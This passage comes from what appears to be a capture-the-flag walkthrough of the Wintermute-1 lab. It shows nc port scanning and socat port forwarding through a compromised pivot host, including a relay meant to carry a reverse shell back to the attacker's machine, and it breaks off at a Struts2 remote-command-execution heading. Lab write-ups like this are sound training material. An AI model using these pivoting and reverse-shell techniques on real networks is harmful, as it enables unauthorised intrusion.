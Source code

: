 This touch-and-go method of using `nc` as a port scanner is pretty efficient. It uncovers three open ports, `8009/tcp`, `8080/tcp` and `34483/tcp`.

Now, let's forward the same ports in Straylight to Neuromancer with `socat` like so.

```
# socat tcp-listen:8009,fork tcp:192.168.40.129:8009 &
# socat tcp-listen:8080,fork tcp:192.168.40.129:8080 &
# socat tcp-listen:34483,fork tcp:192.168.40.129:34483 &
```

![78cbc01f.png](/assets/images/posts/wintermute-1-walkthrough/78cbc01f.png)

Since we are at it, we might as well forward another port in Straylight to my attacking machine in the event a reverse shell from Neuromancer comes knocking.

```
# socat tcp-listen:4321,fork tcp:192.168.30.128:4321 &
```

I should now be able to access these ports from my attacking machine.

### Struts2 Showcase Remote Command Execution

![f8f5f092.png](/assets/images/posts/wintermute-1-walkthrough/f8f5f092.png)
